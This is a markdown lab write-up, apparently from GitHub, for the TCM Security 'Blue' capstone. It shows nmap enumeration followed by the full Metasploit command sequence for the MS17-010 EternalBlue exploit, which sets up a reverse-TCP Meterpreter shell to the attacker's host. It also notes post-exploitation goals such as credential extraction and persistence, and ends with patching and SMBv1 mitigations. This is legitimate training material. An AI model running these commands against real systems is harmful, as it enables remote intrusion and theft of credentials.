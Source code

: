 # TCM Academy Capstone Lab: Blue (EternalBlue Exploit)

## Overview

This writeup covers the exploitation of a vulnerable SMB service in the "Blue" lab from TCM Security Academy capstone using the EternalBlue exploit. The attack involves enumerating the target using `nmap` and exploiting it using `Metasploit Framework`.

## Tools Used

- `nmap` (for enumeration)
- `Metasploit Framework` (for exploitation)

## Enumeration

To identify the vulnerable SMB service, an `nmap` scan was performed:

```bash
sudo nmap -T4 -A <TARGET-IP>
```

![2025-03-16_08-00](https://github.com/user-attachments/assets/a4f07f5f-3d6e-4bba-a340-f40e983af7c0)

This revealed that the target is running **Windows 7 Ultimate Service Pack 1** and has SMB (`port 445`) open.

Additionally, searching for known exploits for this version confirmed that it is vulnerable to **MS17-010 (EternalBlue):**

![2025-03-16_08-01](https://github.com/user-attachments/assets/157b6e80-f5fe-4790-8b26-9de9e929e066)

## Exploitation

Using Metasploit, the following steps were executed:

1. Launch Metasploit:
   ```bash
   msfconsole
   ```
2. Search for the EternalBlue exploit:
   ```bash
   search ms17-010
   ```
   ![2025-03-16_08-05](https://github.com/user-attachments/assets/30f4e4cb-3d78-42f8-99bc-39f1fe851f51)

3. Select the EternalBlue exploit:
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```
4. Set the required options:
   ```bash
   set RHOSTS <TARGET-IP>
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <YOUR-IP>
   set LPORT 4444
   ```
   ![2025-03-16_08-08](https://github.com/user-attachments/assets/47abc61b-49e0-4a92-ae80-3bd95076ff95)

5. Launch the exploit:
   ```bash
   exploit
   ```
   ![2025-03-16_08-09](https://github.com/user-attachments/assets/3c1e2b1d-f7fe-46c6-bca0-3e1e02f5234f)

If successful, this grants a **Meterpreter session**, providing remote access to the target:

![2025-03-16_08-10](https://github.com/user-attachments/assets/695114f6-1600-48d1-8d41-00e83ea9a583)

## Post-Exploitation

Once access is gained, various post-exploitation techniques can be used, such as:

- Privilege escalation
- Extracting credentials
- Maintaining persistence

## Mitigation

To prevent exploitation, the following security measures should be implemented:

- Patch the system (apply MS17-010 update)
- Disable SMBv1
- Restrict access to SMB services

## Conclusion

This lab demonstrated how the EternalBlue exploit can be used to compromise a vulnerable SMB service, highlighting the importance of timely patching and proper system hardening.


